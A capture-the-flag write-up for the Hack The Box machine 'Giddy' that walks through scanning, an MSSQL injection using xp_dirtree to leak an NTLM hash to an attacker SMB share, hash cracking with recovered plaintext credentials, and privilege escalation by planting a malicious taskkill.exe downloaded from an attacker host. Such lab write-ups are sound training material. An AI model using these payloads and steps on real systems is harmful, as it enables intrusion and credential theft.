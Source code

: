 # Giddy
[![Giddy](https://www.hackthebox.eu/storage/avatars/cd0f72b791b481e72b7099668409a6a8.png)](https://www.hackthebox.eu/home/machines/profile/153)

## Initial Foothold
### Nmap
We run nmap.
```sh
Discovered open port 80/tcp on 10.10.10.104
Discovered open port 443/tcp on 10.10.10.104
Discovered open port 3389/tcp on 10.10.10.104
```
Nothing really to get from the home page of the website. So we run wfuzz (or dirb) and set ***big.txt*** as default list.
```sh
$ wfuzz -c -w /usr/share/dirb/wordlists/big.txt --hc 404 10.10.10.104/FUZZ

002693:  C=301      1 L	      10 W	    157 Ch	  "aspnet_client"
012203:  C=301      1 L	      10 W	    147 Ch	  "mvc"
015243:  C=302      3 L	       8 W	    157 Ch	  "remote"
```
We navigate to http://10.10.10.104/mvc and we can see that search field is vulnerable to MSSQL injection. [This](https://medium.com/@markmotig/how-to-capture-mssql-credentials-with-xp-dirtree-smbserver-py-5c29d852f478) article show as the way to get some useful information by exploiting this vulnerability. First we download Impackets.
```sh
$ git clone https://github.com/SecureAuthCorp/impacket.git
$ python impacket/examples/smbserver.py -smb2support myshare /Impacket
```
In the search field we put the following and wait for the results:
```
$ ' EXEC master.sys.xp_dirtree '\\10.10.14.18\myshare',1,1;
```
We put the results into a [file](./files/hash.txt) so we can crack it with hashcat.
```ssh
$ hashcat -m 5600 hash.txt -o hash.crkd /usr/share/wordlists/rockyou.txt --force
$ cat hash.crkd
xNnWo6272k7x
```
We then navigate to https://10.10.10.104/remote and login with the credentials we got from the injection we did before.
```
User name: GIDDY\stacy
Password: xNnWo6272k7x
Computer name: GIDDY
```
Once we are logged in, we get the user.
```sh
$ more ..\Desktop\user.txt
```

## Privesc
If we search for hidden files in "C:\\" directory we will find ***ProgramData***
```sh
$ ls -h
```
Inside the directory "C:\ProgramData\unifi-video\", there is a program called ***UniFiVideo***. Once again "Google is a friend!". Indeed, a little search and we come up with [this](https://www.exploit-db.com/exploits/43390). So we are gonna create a file with the name ***[taskkill.exe](./files/taskkill.exe)*** and place inside the same directory. Locally we compile the file.
```sh
$ apt-get install mingw-w64
$ x86_64-w64-mingw32-gcc copy.c -o taskkill.exe
```
After compiling our script we put it in our local Apache server so we can download it on the remote machine.
```sh
$ cp taskkill.exe /var/www/html/taskkill.exe
$ wget http://10.10.14.18/diafora/copy -UseBasicParsing -OutFile taskkill.exe
```
Back to the remote again we run the commands bellow to make it run our script.
```sh
$ get-service "Ubiquiti UniFi Video"
$ restart-service "Ubiquiti UniFi Video"
```
Finally we can read the root.txt file.
```sh
$ more C:\Users\stacy\Desktop\root.txt
```

[![bertolis](https://www.hackthebox.eu/badge/image/27897)](https://www.hackthebox.eu/home/users/profile/27897)  [![Giddy](https://www.hackthebox.eu/images/logofull-tr-web.png)](https://www.hackthebox.eu/)
